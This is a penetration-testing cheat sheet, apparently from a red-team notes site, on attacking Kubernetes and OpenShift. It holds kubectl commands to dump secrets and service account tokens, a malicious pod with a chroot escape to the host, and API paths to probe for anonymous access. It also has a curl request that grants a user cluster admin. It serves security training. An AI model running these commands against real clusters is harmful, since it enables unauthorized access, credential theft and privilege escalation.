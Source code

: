 # Containerization / Orchestration




## Kubernetes

- [https://book.hacktricks.xyz/cloud-security/pentesting-kubernetes](https://book.hacktricks.xyz/cloud-security/pentesting-kubernetes)



### kubectl

- [https://kubernetes.io/ru/docs/tasks/tools/install-kubectl/](https://kubernetes.io/ru/docs/tasks/tools/install-kubectl/)

Get `kubectl`:

```bash
curl -LO https://storage.googleapis.com/kubernetes-release/release/`curl -s https://storage.googleapis.com/kubernetes-release/release/stable.txt`/bin/linux/amd64/kubectl
chmod +x ./kubectl
sudo mv ./kubectl /usr/local/bin/kubectl
kubectl version --client
```

Basic authenticated enumeration (the service account token from `/run/secrets/kubernetes.io/serviceaccount/token` can be parsed at [jwt.io](https://jwt.io/)):

```
$ kubectl auth can-i --list
$ kubectl get namespaces
$ kubectl auth can-i --list -n <NAMESPACE>
$ kubectl get pods -n <NAMESPACE>
$ kubectl describe pods <POD> -n <NAMESPACE>
$ kubectl get secrets -n <NAMESPACE>
$ kubectl describe secrets -n <NAMESPACE>
$ kubectl --token=$(cat token) auth can-i create pods
```



### Malicious Pods

- [https://github.com/BishopFox/badPods](https://github.com/BishopFox/badPods)

Deploy a malicious pod:

```
$ kubectl apply -f evilpod.yml
$ kubectl exec --stdin --tty -it evilpod -- chroot /hostfs bash
```



### Kubernetes API Server Paths

Check these kube-apiserver paths for anonymous access (stolen from [HackTricks](https://book.hacktricks.xyz/cloud-security/pentesting-kubernetes/pentesting-kubernetes-from-the-outside#kube-apiserver-anonymous-access)):

```
/api
/api/v1
/apis
/apis
/apis/admissionregistration.k8s.io
/apis/admissionregistration.k8s.io/v1beta1
/apis/apiextensions.k8s.io
/apis/apiextensions.k8s.io/v1beta1
/apis/apiregistration.k8s.io
/apis/apiregistration.k8s.io/v1
/apis/apiregistration.k8s.io/v1beta1
/apis/apps
/apis/apps/v1
/apis/apps/v1beta1
/apis/apps/v1beta2
/apis/authentication.k8s.io
/apis/authentication.k8s.io/v1
/apis/authentication.k8s.io/v1beta1
/apis/authorization.k8s.i
/apis/authorization.k8s.io/v1
/apis/authorization.k8s.io/v1beta1
/apis/autoscaling
/apis/autoscaling/v1
/apis/autoscaling/v2beta1
/apis/batch
/apis/batch/v1
/apis/batch/v1beta1
/apis/certificates.k8s.io
/apis/certificates.k8s.io/v1beta1
```



### Tools


#### kube-hunter

- [https://github.com/aquasecurity/kube-hunter](https://github.com/aquasecurity/kube-hunter)

```
$ kube-hunter --cidr 10.0.1.0/24 --active
```



### Training Labs

- [https://www.bustakube.com/](https://www.bustakube.com/)
- [https://0xdf.gitlab.io/2021/09/04/htb-unobtainium.html](https://0xdf.gitlab.io/2021/09/04/htb-unobtainium.html)

{% embed url="https://youtu.be/UgHt_Y3vdNg" %}




## Red Hat OpenShift

- [https://github.com/cherkavi/cheat-sheet/blob/master/openshift.md](https://github.com/cherkavi/cheat-sheet/blob/master/openshift.md)

Grant a low-priv user admin's privileges across the cluster [via REST API](https://access.redhat.com/solutions/5492301):

```json
curl -k -X POST 'https://cluster.megacorp.local:8443/apis/rbac.authorization.k8s.io/v1/clusterrolebindings' \
  -H 'Authorization: Bearer <TOKEN>'  \
  -H 'Accept: application/json'       \
  -H 'Content-Type: application/json' \
  -d'
{
  "kind": "ClusterRoleBinding",
  "apiVersion": "rbac.authorization.k8s.io/v1",
  "metadata": {
    "name": "pwned",
    "creationTimestamp": null
  },
  "subjects": [
    {
      "kind": "User",
      "apiGroup": "rbac.authorization.k8s.io",
      "name": "snovvcrash@megacorp.local"
    }
  ],
  "roleRef": {
    "apiGroup": "rbac.authorization.k8s.io",
    "kind": "ClusterRole",
    "name": "admin"
  }
}'
```
